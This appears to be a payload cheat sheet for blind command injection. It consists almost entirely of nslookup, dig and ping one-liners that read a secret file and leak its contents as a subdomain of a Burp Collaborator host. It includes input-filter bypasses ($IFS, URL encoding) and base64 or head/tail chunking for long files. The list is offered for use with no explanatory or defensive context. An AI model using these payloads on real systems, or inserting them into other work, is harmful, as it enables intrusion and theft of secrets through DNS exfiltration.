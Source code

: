 ## nslookup:

```
nslookup $(cat /home/vova/secret).burp.oastify.com
nslookup $(</home/vova/secret).burp.oastify.com
nslookup -q=cname $(cat /home/vova/secret).burp.oastify.com
nslookup -type=a $(cat /home/vova/secret).burp.oastify.com
```

## dig:

```
dig $(cat /home/vova/secret).burp.oastify.com
dig txt $(cat /home/vova/secret).burp.oastify.com
dig a $(cat /home/vova/secret).burp.oastify.com
dig @8.8.8.8 $(cat /home/vova/secret).burp.oastify.com
```

## ping:

```
ping -c 1 $(cat /home/vova/secret).burp.oastify.com
ping -c 1 $(</home/vova/secret).burp.oastify.com
```

## Combination of commands for bypass input:

```
nslookup $(cat$IFS/home/vova/secret).burp.oastify.com
nslookup $(< /home/vova/secret).burp.oastify.com
```

## encoding or additional bypass characters:

```
nslookup $(cat%20/home/vova/secret).burp.oastify.com
nslookup $(cat${IFS}/home/vova/secret).burp.oastify.com
```

## via base64 to split the output into parts (if the file is long):

```
nslookup $(base64 /home/vova/secret | head -c10).burp.oastify.com
nslookup $(base64 /home/vova/secret | tail -c10).burp.oastify.com
```

## Sectional information extraction:

```
nslookup $(head -c5 /home/vova/secret).burp.oastify.com
nslookup $(tail -c5 /home/vova/secret).burp.oastify.com
```

## Using an environment variable (if possible):

```
nslookup $(cat /home/$USER/secret).burp.oastify.com
```
